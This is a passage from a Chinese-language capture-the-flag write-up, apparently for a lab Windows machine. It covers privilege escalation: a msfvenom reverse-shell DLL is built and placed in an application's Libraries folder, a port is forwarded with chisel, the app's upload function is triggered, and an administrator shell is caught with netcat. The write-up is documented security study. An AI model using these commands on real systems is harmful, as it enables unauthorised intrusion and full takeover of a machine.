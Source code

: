    但是有一个ReportManagementHelper.exe没有权限下载



## 3.3 提权

生成恶意的dll并将其上传到`C:\\Program Files\\ReportManagement\\Libraries`目录下

```
└─# msfvenom -p windows/x64/shell_reverse_tcp lhost=tun0 lport=443 -f dll -o externalupload.dll
```

将目标机器的tcp 100端口转发到本地，然后调用upload功能去触发恶意的dll

```
kali执行
└─# ./chisel server -p 1234 --reverse

目标机器执行
*Evil-WinRM* PS C:\users\devdoc\Downloads> .\chisel.exe client 10.10.16.54:1234 R:100:127.0.0.1:100


└─# nc 127.0.0.1 100  
Reports Management administrative console. Type "help" to view available commands.
help
Available Commands:
backup: Perform a backup operation.
validate: Validates if any report has been altered since the last backup.
recover <filename>: Restores a specified file from the backup to the Reports folder.
upload <external source>: Uploads the reports to the specified external source.
upload aaaa
Attempting to upload to external source.

```

成功获取administrator的shell

```
└─# nc -nvlp 443                       
listening on [any] 443 ...
connect to [10.10.16.54] from (UNKNOWN) [10.10.11.238] 55880
Microsoft Windows [Version 10.0.19045.3570]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\ReportManagement>whoami
whoami
appsanity\administrator

```

